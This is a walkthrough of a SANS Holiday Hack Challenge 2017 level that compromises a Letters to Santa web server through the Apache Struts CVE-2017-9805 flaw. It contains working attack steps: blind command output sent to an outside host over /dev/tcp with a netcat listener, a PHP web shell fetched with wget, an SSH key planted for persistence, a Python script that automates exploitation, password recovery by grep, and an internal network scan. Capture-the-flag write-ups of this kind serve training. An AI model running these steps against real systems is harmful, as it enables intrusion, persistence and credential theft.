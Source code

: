 * Question
   :PROPERTIES:
   :CUSTOM_ID: q2_question
   :END:

Investigate the Letters to Santa application at
https://l2s.northpolechristmastown.com. What is the topic of The
Great Book page available in the web root of the server? What is
Alabaster Snowball's password?

/For hints associated with this challenge, Sparkle Redberry in the Winconceivable: The Cliffs of Winsanity Level can provide some tips./

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q2_background-information
   :END:

We know that there is an application on =https://l2s.northpolechristmastown.com= that we need to investigate.
This webpage is publically accessible from the Internet and not appear to require any special measures to
access it. We do not know Alabaster password or username at the start of this challenge nor what type of
web service is running on the host.

The following hints were provided by Sparkle Redberry from completing the level
[[https://2017.holidayhackchallenge.com/game/3e813a9c-cb34-492e-a317-0dd99c8ca2e7][Winconceivable: The Cliffs of Winsanity]]:

#+begin_hint
We're excited to debut the new Letters to Santa site this year. Alabaster worked hard on that project for over a year. I got to work with the development version of the site early on in the project lifecycle.
#+end_hint
#+begin_hint
Near the end of the development we had to rush a few things to get the new site moved to production. Some development content on the letter page should probably have been removed, but ended up marked as hidden to avoid added change control paperwork.
#+end_hint
#+begin_hint
Alabaster's primary backend experience is with Apache Struts. I love Apache and have a local instance set up on my home computer with a web shell. Web shells are great as a backdoor for me to access my system remotely. I just choose a really long complex file name so that no one else knows how to access it.
#+end_hint
#+begin_hint
A simple web shell is to create a PHP file in the web root with ~<?php echo "<pre>" . shell_exec($_GET['e']) . "</pre>"; ?>~. Then, I visit the URL with my commands. For example, =http://server/complexFileName.php?e=ls=.
#+end_hint
#+begin_hint
There are lots of different web shell tools available. [[https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985][You can get a simple PHP web shell that is easy to use here]].
#+end_hint
#+begin_hint
That business with Equal-Facts Inc was really unfortunate. I understand there are a lot of different exploits available for those vulnerable systems. Fortunately, Alabaster said he tested for CVE-2017-5638 and it was NOT vulnerable. Hope he checked the others too.
#+end_hint
#+begin_hint
Apache Struts uses XML. I always had problems making proper XML formatting because of special characters. I either had to encode my data or escape the characters properly so the XML wouldn't break. I actually just checked and there are lots of different exploits out there for vulnerable systems. [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Here is a useful article]].
#+end_hint
#+begin_hint
Pro developer tip: Sometimes developers hard code credentials into their development files. Never do this, or at least make sure you take them out before publishing them or putting them into production. You also should avoid reusing credentials for different services, even on the same system.
#+end_hint

The following SANS Pentest Blog posts were also very helpful for this challenge:
- [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Why You Need the Skills to Tinker with Publicly Released Exploit Code]]
  
  Code: [[https://github.com/chrisjd20/cve-2017-9805.py]]
- [[https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted][A Spot of Tee]]
  bash shell, and bypassing the I/O restriction with tee

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q2_goal
   :END:

There are two goals for this challenge. The first is to determine the topic of
the Great Book Page that is sitting on the web root of this server. The second
is to determine what Alabaster's password is.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q2_approach
   :END:

According to the second hint there might be development code left in the production code.
If we look at the source of =l2s= the following code pops out.

#+BEGIN_SRC html
<!-- Development version -->
<a href="http://dev.northpolechristmastown.com" style="display: none;">Access Development Version</a>
#+END_SRC

Let's do some recon on the hosts:

#+BEGIN_SRC
$ nmap -sC l2s.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for l2s.northpolechristmastown.com (35.185.84.51)
Host is up (0.027s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://l2s.northpolechristmastown.com/
443/tcp  open   https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
#+END_SRC

In addition to the hidden link for dev.northpolechristmastown.com, it is also
present as an alternate name on the certificate of the host. Let's let nmap's
scripts scan that as well.

#+BEGIN_SRC
$ nmap -sC dev.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for dev.northpolechristmastown.com (35.185.84.51)
Host is up (0.028s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://dev.northpolechristmastown.com/
443/tcp  open   https
| http-title: Toys List
|_Requested resource was /orders.xhtml
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server
#+END_SRC

We can see that dev and l2s are one and the same, which is important, since dev was not explicitly called out as being in scope. Visiting the dev page has a footer
that simply states =Powered By: Apache Struts=. Let's use this to our advantage.
Let's use the tool provided through the SANS Pentest blog,
[[https://github.com/chrisjd20/cve-2017-9805.py][cve-2017-9805.py]]. The dev page
we land on is [[https://dev.northpolechristmastown.com/orders.xhtml]] so we'll use
that to start from.

Let's check out the help:

#+BEGIN_SRC
$ ./cve-2017-9805.py
usage: cve-2017-9805.py [-h] [-u URL] -c COMMAND

optional arguments:
  -h, --help  show this help message and exit
  -u URL      url of target vulnerable apache struts server. Ex-
              http://somevulnstrutsserver.com/orders.xhtml
  -c COMMAND  command to execute against the target. Ex - /usr/bin/whoami
#+END_SRC

The example URL is =http://somevulnstrutsserver.com/orders.xhtml=. How fortituous!

#+BEGIN_SRC
$ python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'ls'
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
#+END_SRC

Looks like we need to modify the program to let us see what it's
doing by uncommenting the following line:

#+BEGIN_SRC python
print request.text
#+END_SRC

Rerunning our command now results in a lengthy Apache Tomcat error
with no apparent output from our =ls= command. We're dealing with a
blind injection so we'll need to figure out a different way to get the
output of the command. One trick we can pull is redirecting output to
a special pseudo device, ~/dev/tcp/$host/$port~. We'll need to
set up a listener on our end first:

#+BEGIN_SRC
holiday@hack:~$ nc -l -p 8888
#+END_SRC

Now we run the exploit again:

#+BEGIN_SRC
./cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "ls > /dev/tcp/1.2.3.4/8888"
#+END_SRC

The result on our end is:
#+BEGIN_SRC
holiday@hack:~$ nc -l -p 8888
bin
boot
dev
etc
home
...
vmlinuz
vmlinuz.old
#+END_SRC

It looks like we've been dropped into the root directory. Let's look for
where the web root is. Normally, the default is /var/www/html on most
linux+apache based hosts. We'll try again with the command =ls -al /var/www/html=.

#+BEGIN_SRC
total 1772
drwxrwxrwt 6 www-data           www-data              4096 Jan  6 03:00 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:03 css
drwxr-xr-x 3 root               www-data              4096 Oct 12 19:40 fonts
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:14 imgs
-rw-r--r-- 1 root               www-data             14501 Nov 24 20:53 index.html
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:11 js
-rwx------ 1 www-data           www-data               231 Oct 12 21:25 process.php
#+END_SRC

Oh look. There's [[https://l2s.northpolechristmastown.com/GreatBookPage2.pdf][GreatBookPage2.pdf]]. We can download it and find the answer to the first question.

Let's assume for a minute that we didn't know where the web root
was. Since page 1 of our Great Book was a PDF, it's a pretty safe bet
that page 2 is also a PDF. It takes about half of a second to search the system for all PDFs using =find=:

#+BEGIN_SRC
$ find / -name *.pdf
/var/www/html/GreatBookPage2.pdf
#+END_SRC

*** Command Execution

 It looks like we found our web root. Let's try out the
 web shell they suggest in the hints from Josh Wright
 [[https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php][easy-simple-php-webshell.php]].
 We'll output it to a random file in the web root then
 we can try to use it to execute commands using a browser.

 #+BEGIN_SRC
 ./cve-2017-9805.py -c "wget -O /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php
    https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php"
    -u https://dev.northpolechristmastown.com/orders.xhtml
 #+END_SRC

 Now we can access
 [[https://l2s.northpolechristmastown.com/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php]]
 and look around. If we do an =ls= in this webshell, it just returns
 the local directory, =/var/www/html=. Nothing in here suggests that we
 have the webroot for the dev server,
 [[https://dev.northpolechristmastown.com]].

 Let's run =find= to see if we can find the password in our webshell.

 #+BEGIN_SRC sh
 find / -xdev -type f -user alabaster_snowball 2>/dev/null | xargs grep password
 #+END_SRC

 Within the page full of results we see this:

 #+BEGIN_SRC
 /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String password = "stream_unhappy_buy_loss";
 #+END_SRC

 A closer look at =OrderMySql.class= using =cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class= we find:

 #+BEGIN_SRC java
 final String username = "alabaster_snowball";
 final String password = "stream_unhappy_buy_loss";
 #+END_SRC

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q2_solution
   :END:

*** What is the topic of The Great Book page available in the web root of the server?

Leveraging the Apache Struts vulnerability, we can run =ls= on the
common web root of =/var/www/html=, and get the filename of the page,
then download it via the web server. Opening it up, we see that the
topic is:

#+BEGIN_QUOTE
On the Topic of Flying Animals
#+END_QUOTE

*** What is Alabaster Snowball’s password?

The trick here is just finding the right file, and the password is in
cleartext in that file. We used =find= to =grep= all the files for
"password".

#+BEGIN_QUOTE
=stream_unhappy_buy_loss=
#+END_QUOTE

* Alternatives
   :PROPERTIES:
   :CUSTOM_ID: q2_alternatives
   :END:

*** Add an authorized_key

One thing you can do if you don't have the password yet is actually
add an SSH key to Alabaster's authorized keys file. This is
problematic since you need to know that the username is actually
=alabaster_snowball= first. Assuming you do, you can run the following
command to add your key to the file.

The command we want to run is the following, taking care not to clobber any existing authorized keys:

#+BEGIN_SRC sh
cd /home/alabaster_snowball
# Make the .ssh directory, if it doesn't exist
mkdir .ssh
# ssh is very picky about permissions, so lock this down:
chmod 700 .ssh
cd .ssh

# Create the authorized_keys file, if it doesn't exist
touch authorized_keys
# ...and lock it down
chmod 600 authorized_keys

# Append our key
echo ssh-rsa VGhpcyBpcyBub3QgcmVhbGx5IGFuIFJTQSBrZXksIGJ1dCBoZXksIHdobyByZWFsbHkgbG9va3MgYXQgYmFzZTY0IGFueXdheQo= holiday@hack | 
  tee -a /home/alabaster_snowball/.ssh/authorized_keys
#+END_SRC

For running this via the Struts exploit, we want this all as a
one-liner. Let's break this up into two parts: first, we'll create the
necessary directory and file, and ensure the permissions are correct,
then we'll add our key:

#+BEGIN_SRC sh
./cve_2017_9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 
  'cd /home/alabaster_snowball; mkdir .ssh; chmod 700 .ssh; cd .ssh; touch authorized_keys; chmod 600 authorized_keys'
./cve_2017_9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 
  'echo ssh-rsa VGhpcyBpcyBub3QgcmVhbGx5IGFuIFJTQSBrZXksIGJ1dCBoZXksIHdobyByZWFsbHkgbG9va3MgYXQgYmFzZTY0IGFueXdheQo= holiday@hack | tee -a /home/alabaster_snowball/.ssh/authorized_keys'
#+END_SRC

Then you can SSH in using your private key identity file.

#+BEGIN_SRC
holiday@hack:~$ ssh -i /home/holiday/.ssh/sans_2017 alabaster_snowball@l2s.northpolechristmastown.com
alabaster_snowball@l2s:/tmp/asnow.xq1pCkwT7LUy3iLl0AaBCc7D$ grep -A1 -R / -e alabaster_snowball
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class- final String password = "stream_unhappy_buy_loss";
#+END_SRC

Once in you are in a restricted shell but you can try to =grep= for
Alabaster's password but a regular =grep= against the entire system will
take about 1 minute then you have to parse through the results.

*** Automate the webshell

We can automate dropping a webshell and creating a mini shell to query
it. Assuming we have [[https://github.com/chrisjd20/cve-2017-9805.py]] in
the same directory we can create a script to automate exploitation and
give us a prompt to execute commands.

#+BEGIN_SRC python
#!/usr/bin/env python
from __future__ import print_function

import base64
import requests
import sys

from cve_2017_9805 import main as struts_exploit

VULNERABLE_ENDPOINT = "https://dev.northpolechristmastown.com/orders.xhtml"
BASE_URL = "https://l2s.northpolechristmastown.com/"
WEBSHELL = "4beadb1e-5ddb-4636-98a4-c2dac0f79ab3.php"
WEBSHELL_PAYLOAD = b'<?php system($_GET[cmd]); ?>\n'
WEBSHELL_PAYLOAD_ENCODED = base64.encodestring(WEBSHELL_PAYLOAD).strip()

## Emulate this command:
## /cve-2017-9805.py -c 'echo PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo= | 
##    base64 -d > /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php' -u https://dev.northpolechristmastown.com/orders.xhtml
EXPLOIT_COMMAND = "echo {} | base64 -d > /var/www/html/{}".format(WEBSHELL_PAYLOAD_ENCODED, WEBSHELL)

def run_command(command):
    url = BASE_URL + WEBSHELL
    request = requests.get(url, params={"cmd":command})
    if request.status_code == 404:
        return None
    return request.text

#Main function
def setup():
    # See if we can run the id command, and if so, we are good to go...
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The webshell did not exist, re-exploiting.....\n")
    struts_exploit(VULNERABLE_ENDPOINT, EXPLOIT_COMMAND)
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The struts exploit/webshell failed :-(\n")
    sys.exit(1)

def interactive():
    setup()
    while True:
        try:
            cmd = raw_input("www-data@l2s:$ ")
        except EOFError:
            print()
            return
        print(run_command(cmd))

def one_shot(command):
    setup()
    print(run_command(command))

if __name__ == "__main__":
    if sys.argv[1:]:
        one_shot(' '.join(sys.argv[1:]))
    else:
        interactive()
#+END_SRC

First we need to either rename =cve-2017-9805.py= to
=cve_2017_9805.py= or create a symlink so it can be properly imported
into our script. Then we can easily execute commands on l2s.

#+BEGIN_SRC
holiday@hack:~$ ./l2s.py id
The webshell did not exist, re-exploiting.....
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
uid=33(www-data) gid=33(www-data) groups=33(www-data)

holiday@hack:~$ ./l2s.py uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux

holiday@hack:~$ ./l2s.py
www-data@l2s:$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@l2s:$ uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux
#+END_SRC

*** Search even faster with ripgrep

=ripgrep= is a super fast =grep= replacement written in rust. It does a
better job at filtering binary files, so we can run this command that
finishes in about a second.

The following steps create a folder for =ripgrep= and executes the
search.

#+BEGIN_SRC sh
www-data@l2s:$ mkdir /tmp/.rg
www-data@l2s:$ wget -q -O - https://github.com/BurntSushi/ripgrep/releases/download/0.7.1/ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz | 
  tar xzf - -C /tmp/.rg/
www-data@l2s:$ find / -type f -xdev -user alabaster_snowball 2>/dev/null | 
  xargs /tmp/.rg/ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster -A 1
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class- final String password = "stream_unhappy_buy_loss";
#+END_SRC

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q2_common-pitfalls
   :END:

A common pitfall is the blind injection aspect of the Apache Struts exploit. There were a couple of ways around this:

  * Using the ~/dev/tcp~ trick like we did,
  * Redirect the output to =/var/www/html/$filename=, and then accessing that via the web interface,
  * Piping the output to =netcat=.

Finding the password was also tricky. Luckily, there weren't many
files on this system, so we could just =grep= everything, but another
option would've been to look for files that had been modified around
the time the system was installed.

Trying to compromise the l2s app itself was a dead end.  Once we have command
execution we can see that the process.php script is simply:

#+BEGIN_SRC php
<?php
if ($_POST["first_name"] && $_POST["age"] && $_POST["state"] && $_POST["city"] && $_POST["toy"] && $_POST["message"] && $_POST["sex"]) {
	echo "Letter has been sent to Santa!";
} else {
	echo "Error missing parameters";
}
?>
#+END_SRC

* About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: q2_about-the-challenge
   :END:

Initially the host had a couple of noticeable holes.

  * Apache server running as =alabaster_snowball= (eventually changed to =www-data= user)
  * Easy bypass of rbash by adding the '-t' flag and executing =bash= on SSH login (eventually =rbash= was forced through =/etc/ssh/sshd_config=)

The server itself housed two virtual web hosts, the Letters to Santa application which ran PHP in =nginx= and the Development site which was run by Apache Struts on a high port being redirected by =nginx=.

* Moving Foward

Now that we have a script to automate access to l2s let's run =nmap= to scan the internal network.

#+BEGIN_SRC
holiday@hack:~$ ./l2s.py "nmap -sC 10.142.0.*"

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-09 20:51 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00018s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http
|_http-title: Did not follow redirect to https://hhc17-l2s-proxy.c.holidayhack2017.internal/
443/tcp  open  https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
2222/tcp open  EtherNetIP-1

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http
|_http-title: Toys List

Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Host is up (0.00018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 a2:c4:67:fe:a2:d9:df:47:02:55:35:1a:f4:1b:b6:02 (RSA)
|_  256 9e:d4:01:d1:71:be:95:90:68:6e:ee:87:28:42:49:8e (ECDSA)
25/tcp   open  smtp
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp   open  http
| http-robots.txt: 1 disallowed entry
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
143/tcp  open  imap
|_imap-capabilities: more AUTH=PLAIN capabilities have OK Pre-login AUTH=LOGINA0001 ENABLE listed SASL-IR IDLE post-login LITERAL+ IMAP4rev1 LOGIN-REFERRALS ID
2525/tcp open  ms-v-worlds
3000/tcp open  ppp

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00014s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
| ssh-hostkey:
|   2048 73:de:22:15:7b:53:13:85:a7:a5:8f:10:3a:5d:3b:3f (RSA)
|_  256 f5:d7:f3:5d:dc:7c:73:10:cc:f7:a4:c7:f0:d9:61:0c (ECDSA)
80/tcp   open     http
| http-robots.txt: 1 disallowed entry
|_/dev
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://edb.northpolechristmastown.com/index.html
389/tcp  filtered ldap
8080/tcp open     http-proxy
| http-robots.txt: 1 disallowed entry
|_/dev
|_http-title: Did not follow redirect to http://edb.northpolechristmastown.com/index.html

Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
Host is up (0.00021s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=hhc17-smb-server
| Not valid before: 2017-11-06T13:46:55
|_Not valid after:  2018-05-08T13:46:55
|_ssl-date: 2018-01-09T20:51:47+00:00; 0s from scanner time.

Host script results:
|_nbstat: NetBIOS name: HHC17-SMB-SERVE, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:08 (unknown)
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol

Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Host is up (0.00021s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http
|_http-title: Toys List
4444/tcp open  krb524

Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Host is up (0.00078s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Index - North Pole Engineering Presents: EaaS!
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=hhc17-elf-manufacturing
| Not valid before: 2017-11-23T20:53:55
|_Not valid after:  2018-05-25T20:53:55
|_ssl-date: 2018-01-09T20:51:47+00:00; 0s from scanner time.

Post-scan script results:
| clock-skew:
|   0s:
|     10.142.0.13 (eaas.northpolechristmastown.com)
|_    10.142.0.8 (hhc17-emi.c.holidayhack2017.internal)
| ssh-hostkey: Possible duplicate hosts
| Key 256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA) used by:
|   10.142.0.2
|   10.142.0.3
|   10.142.0.11
| Key 2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA) used by:
|   10.142.0.2
|   10.142.0.3
|_  10.142.0.11
Nmap done: 256 IP addresses (7 hosts up) scanned in 14.86 seconds
#+END_SRC
